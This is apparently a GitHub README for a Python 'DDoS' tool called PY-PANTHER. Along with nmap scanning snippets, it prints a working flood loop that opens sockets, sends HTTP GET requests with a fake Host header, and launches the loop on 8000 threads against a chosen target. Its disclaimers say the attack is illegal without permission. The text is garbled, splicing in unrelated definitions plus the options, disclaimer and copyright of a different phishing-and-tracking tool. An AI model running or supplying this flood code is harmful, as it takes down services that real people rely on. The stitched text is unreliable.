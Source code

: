 PY-PANTHER
==========

 Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal..
 
 ---
 INTRODUCTION
----------------
 we are going to write a penetration-testing script, namely a DDOS script, in Python. This program will allow us to flood a server with so many reqeusts that, after a while, it won’t be able to respond anymore and it will go down.

But let me give you a big warning here! Performing a DDOS attack onto any server that is not yours or you don’t have permission to attack is highly illegal. I do not recommend the attacks on any servers other than your own and I am not responsible for what you are going to do with this script. This post is purely educational and shall help you to understand networking and programming with Python. So don’t do stupid things!

WHAT IS DDOS?

DDOS stands for Distributed Denial of Service and it is an attack where we block the ressources of a server by flooding it with requests. Usually this kind of attack is never performed alone but with the help of so-called botnets.
![PY-PANTHER](https://www.neuralnine.com/wp-content/uploads/2019/09/botnet2-1024x702.png)

In a botnet, one hacker infects many computers and servers of ordinary people, in order to use them as zombies. He uses them for a collective attack onto a server. Instead of one DDOS script, he can now run thousands of them. Sooner or later the server will be overwhelmed with the amount of requests so that it is not even able to respond to an ordinary user. For smaller and weaker servers, sometimes one attacker is enough to get it down. However, usually such an attack can be counteracted by blocking the IP-addresses of the attackers.

WHAT IS NMAP?
Nmap, short for Network Mapper, is a free, open-source tool for vulnerability scanning and network discovery. Network administrators use Nmap to identify what devices are running on their systems, discovering hosts that are available and the services they offer, finding open ports and detecting security risks.


Implementing The DDOS Script

The implentation of a DDOS script in Python is quite simple. We only need to send requests to a host on a specific port over and over again. This can be done with sockets. To speed the process up and make it more effective, we will use multi-threading as well. So, the following libraries will be needed for this tutorial:

```
import socket
import threading
```
then write the executable code

```
def restart_program() :
    python = sys.executable
    os.execl(python, python, *sys.argv)
    os.system('clear')
```
We all know, what import nmap is for, to import the nmap module to our python script.
Then we initialise the Nmap PortScanner to scan the ports on our local network.
```
scanner = nmap.PortScanner()
```
The type of scan we use in this attacks are:
```
mode = input("""\nEnter the type of scan!!!
                  [1] Domain LookUp
                  [2] Whole Network Scan
                  [3] Simple Network scan
                  [4] Aggressive Scan 
                  [5] CVE Scan
                  [00] Back\nEnter your option : """)
        print("\nYou have selected option: ", mode)
```        

The mode of a set of data values is the value that appears most often. It is the value at which the data is most likely to be sampled.
```
if mode == '1' :
```
The <input type="url"> defines a field for entering a URL.The input value is automatically validated before the form can be submitted.
```
 url = input("Enter the Domain Name : ")
 ```
 
 the if statements used for the conditional execution
 ```
  a = platform.system()
            if a == 'Windows' :
                print(os.system('ipconfig'))
            elif a == 'Linux' :
                print(os.system('ifconfig'))
            elif a == 'Darwin' :
                print(os.system('ifconfig'))
```
Enumerating(counting and listing one by one) all the open ports on You can also provide the IP address of any remote server as well, to scan
```
lport = scanner[ip][proto].keys()
```
As I already mentioned, DDOS is illegal. So be careful witht the target that you choose here. You can also choose your home server, your printer or maybe even your own website. If you don’t know your IP-address, you can use your command line and ping the domain to get it. As a fake IP-address I chose a random but still valid address. Last but not least, I decided to attack the port 80, which is HTTP. If you want to shut down a specific service, you need to know which port it is operating at.
```
  def attack() :
        while True :
          s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
          s.connect((target, port))
          s.sendto(("GET /" + target + " HTTP/1.1\r\n").encode('ascii'), (target, port))
          s.sendto(("Host: " + fake_ip + "\r\n\r\n").encode('ascii'), (target, port))
```
We created a variable attack_num that tracks how many requests have been sent already. With every iteration, we increase this number and print it.
```
  global attack_num
  attack_num += 1
  print(attack_num)
  
  s.close()
```
In this case, we are starting 8000 threads that will execute our function.
Of course, you can play around with the number.When we now execute our script, we will DDOS the target but we won’t see anything.
If you want to see some information, you may print the amounts of requests already sent.
just notice that this will slow down your attack.
```
    for i in range(8000) :
        thread = threading.Thread(target=attack)
        thread.start()
```
**HELP  AND OPTIONS**
```
user:~$ python3 pypanther.py --help
usage: python pypanther.py -u <> -p <> [-h] [-v] [-u URL] [-p PORT]
                                              [-ak ACCESSKEY] [-l LOCAL]
                                              [--update] [-n] [-ic INJC]

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -u URL, --url URL     Put the web page url to clone
  -p PORT, --port PORT  Insert your port
  -ak ACCESSKEY, --accesskey ACCESSKEY
                        Insert your custom key access
  -l LOCAL, --local LOCAL
                        Insert your home file
  -n, --ngrok           Insert your ngrok Authtoken
  -ic INJC, --injectcode INJC
                        Insert your custom REST API path
  -ud UPDATE, --update UPDATE
                        Update trape to the latest version
```

**--url**  In this option you add the URL you want to clone, which works as a decoy.

**--port**  Here you insert the port, where you are going to run the  **PY-PANTHER server**.

**--accesskey**  You enter a custom key for the  **trape panel**, if you do not insert it will generate an  **automatic key**.

**--injectcode**  PY-PANTHER contains a  **REST API**  to play anywhere, using this option you can customize the name of the file to include, if it does not, generates a random name allusive to a token.

**--local**  Using this option you can call a local **HTML file**, this is the replacement of the  **--url**  option made to run a local lure in trape.

**--ngrok**  In this option you can enter a token, to run at the time of a process. This would replace the token saved in configurations.

**--version**  You can see the version number of PY-PANTHER.

**--update**  Option used to upgrade to the latest version of **PY-PANTHER**.

**--help**  It is used to see all the above options, from the executable.

Disclaimer
-------
This tool has been published educational purposes. It is intended to teach people how bad guys could track them, monitor them or obtain information from their credentials, we are not responsible for the use or the scope that someone may have through this project.

We are totally convinced that if we teach how vulnerable things really are, we can make the Internet a safer place.

Developer
-------
ADCD STUDENTS COCHIN & CALICUT

Happy hacking!
-------
I invite you, if you use this tool helps to share, collaborate. Let's make the Internet a safer place, let's report.

## License

The content of this project itself is licensed under the [Creative Commons Attribution 3.0 license](http://creativecommons.org/licenses/by/3.0/us/deed.en_US), and the underlying source code used to format and display that content is licensed under the [MIT license](http://opensource.org/licenses/mit-license.php).

Copyright, 2018 by [Jose Pino](https://twitter.com/jofpin) 

